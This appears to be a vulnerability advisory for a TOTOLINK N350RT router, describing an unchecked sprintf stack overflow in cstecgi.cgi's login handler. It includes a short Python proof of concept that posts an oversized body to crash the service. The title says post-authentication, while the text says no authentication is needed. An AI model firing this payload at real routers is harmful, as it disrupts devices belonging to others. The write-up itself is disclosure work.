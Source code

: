 # TOTOlink N350RT(V9.3.5u.6139_B20201216) router has post-authentication buffer overflow vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/206/ids/36.html

**This product is on sale**: https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/206.html
## Affected Version
V9.3.5u.6139_B20201216
## Vulnerability Analysis
The following image displays the code for a stack overflow vulnerability in the `main` function of `cstecgi.cgi`. When an attacker accesses `http://ip/cgi-bin/cstecgi.cgi?action=login&flag=1` using the POST method, all data in the `HTTP BODY` will be read into `v8` and concatenated to the local variable `v33` using the sprintf function. Due to the lack of length validation by the developer on `v8`, sending an overly long message by the attacker will eventually cause a stack overflow in the program. As this code segment resides at the beginning of the main function, the attacker does not need to undergo any form of authentication.
![Vulnerability](./ida.png)
## POC
```python
import requests
def poc():
    payload = "A"*5000
    response = requests.post('http://192.168.5.12/cgi-bin/cstecgi.cgi?action=login&flag=1', data=payload)
    print(response.status_code)
poc()
```
I set a breakpoint at `0x425828` (the next instruction after the stack overflow occurred) in `cstecgi.cgi`. I observed that the region on the stack originally meant for holding the return address was overwritten with `AAAA`, confirming the occurrence of a stack overflow. If it's possible to leak the libc base address, it might even lead to achieving Remote Code Execution (RCE).
![gdb](gdb.png)
![breakpoint](breakpoint.png)